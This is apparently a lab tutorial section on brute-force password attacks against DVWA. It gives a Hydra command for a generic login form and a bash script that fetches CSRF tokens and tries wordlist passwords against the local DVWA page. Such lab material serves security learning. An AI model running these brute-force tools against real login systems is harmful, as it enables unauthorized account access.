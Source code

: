 ## 1. Brute Force Attack

![](https://pimages.toolbox.com/wp-content/uploads/2022/05/10131245/Critical-Steps-of-a-Brute-Force-Attack.png)
>We will use DVWA Labs To Learn Bruteforce Attacks

>We will use hydra and custom bash script to perform bruteforce attack

**Hydra**
```
hydra target.com -V -l username -P "worldlists.txt" http-get-form "/path:formusername=^USER^&formpassword=^PASS^&FormLogin=Login:F=Fail Message:H=Cookie: Cookies"
```

**BASH Script**
```
#!/usr/bin/bash
crack() {
token=$(curl -s --cookie "PHPSESSID=d9bhskt5gc3jmctc1eilhr56e6; security=high"  "http://localhost/vulnerabilities/brute/" | grep user_token  | grep -oP "value='\K[^']+")
html_codes=$(curl -s --cookie "PHPSESSID=d9bhskt5gc3jmctc1eilhr56e6; security=medium"  "http://localhost/vulnerabilities/brute/?username=admin&password=$1&Login=Login&user_token=$token")
if [[ $(echo "${html_codes}" | grep -i "Welcome to the password protected area admin") ]];then
echo "Success"
exit
else
echo "Failed"
fi
}
while IFS= read -r passwords;do
echo "Trying... ($passwords)"
crack $passwords
done < /usr/share/wordlists/fasttrack.txt
```
